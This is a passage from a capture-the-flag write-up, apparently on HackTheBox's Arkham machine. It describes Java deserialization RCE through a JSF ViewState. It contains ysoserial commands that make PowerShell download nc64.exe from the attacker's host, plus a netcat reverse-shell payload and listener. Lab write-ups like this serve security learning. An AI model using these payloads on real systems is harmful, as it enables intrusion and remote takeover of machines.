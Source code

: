 ```python
                    'j_id_jsp_1623871077_1%3Asubmit': 'SIGN+UP',
                    'j_id_jsp_1623871077_1_SUBMIT': '1',
                    'javax.faces.ViewState': viewstate
                    }
    )
```

I setup `tcpdump -i eth0 icmp` and run the script but nothing happens. So i decide to try a different payload type with `ysoserial`.

After some time i found that `CommonColletion5` gets me a ping.

```bash
java -jar ysoserial-all.jar CommonsCollections5 'ping 10.10.14.61' > payload.bin
```

![rce-25](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/rce-25.png)

Now we need to find a working payload for a reverse shell. At first i tried to host `nishang`'s reverse powershell script on a python web server, and download it from the target but that didnt work. Then i tried to host the same file through an SMB share, the target did connect to my share, but didnt get the file nor did it execute it.

So instead i decided to download `nc64.exe` to the target with:

```bash
java -jar ysoserial-all.jar CommonsCollections6 'powershell -exec bypass -c Invoke-WebRequest -uri "http://10.10.14.61/nc64.exe" -outfile \windows\System32\spool\drivers\color\n.exe' > payload.bin
```

This worked, as the target retrieved the file. Then i setup the reverse shell payload with:

```bash
java -jar ysoserial-all.jar CommonsCollections5 '\windows\System32\spool\drivers\color\n.exe -e cmd 10.10.14.61 443' > payload.bin
```

i start my listener with:

```bash
rlwrap nc -lnvp 443
```

And execute:

![shell-27](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/shell-27.png)